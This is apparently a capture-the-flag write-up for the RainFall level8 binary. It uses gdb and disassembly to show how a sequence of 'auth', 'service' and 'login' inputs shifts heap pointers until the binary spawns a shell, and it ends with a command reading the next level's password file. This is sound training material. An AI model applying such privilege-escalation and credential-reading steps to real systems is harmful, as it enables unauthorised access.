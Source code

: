 The complexity here is to read the operations of the `main`. Let's try the program :

```
level8@RainFall:~$ ./level8
(nil), (nil) 
```

It keeps looping, and keep stdin open listening to its values every time.

```
iVar2 = fgets(auStack144, 0x80, _stdin);
```

Thanks to `fgets`, `stdin` value is saved in `auStack144`.

```
printf("%p, %p \n", _auth, _service); 
```

We understand that there are 2 global variables named `auth` and `service` that can be usefull to us, let's check;

```
(gdb) info variables
All defined variables:

Non-debugging symbols:

...

0x08049aac  auth
0x08049ab0  service

...
```

When we look at the `main` function, we can see that `auStack144` value si compared with the 4 string `"auth " "reset" "service" "login"` that are some kinds of commands; with "login", we have to find how to unlock `system("/bin/sh");`

```
0x080486e2 <+382>:	mov    eax,ds:0x8049aac
0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
0x080486ea <+390>:	test   eax,eax
```
to unlock the shell, the program will load the value at `0x8049aac` (`auth`) and check if `eax + 0x20` exists.


1. type `auth ` to create a pointer on a memory zone in the heap
```
0x080485eb <+135>:	call   0x8048470 <malloc@plt>
0x080485f0 <+140>:	mov    ds:0x8049aac,eax
0x080485f5 <+145>:	mov    eax,ds:0x8049aac
0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
```

in gdb, I set a breakpoint at the `printf` call :
```
Starting program: /home/user/level8/level8 

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x auth
0x0:	Cannot access memory at address 0x0
(gdb) c
Continuing.
(nil), (nil) 
auth 

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x auth
0x804a008:	0x0000000a
```

now the value stored in `auth` exists.

2. the `service` command use `strdup` that also uses `malloc`, and we can observe that its value increases :
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
service
(nil), 0x804a008 
service
(nil), 0x804a018 
```

So we know we must initialize by typing `auth ` one time and then if we calculate :
```
>>> hex(0x804a008 + 0x20)
'0x804a028'
```

We have to type `service` two times then `login`.

```
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
$ cat /home/user/level9/.pass
```


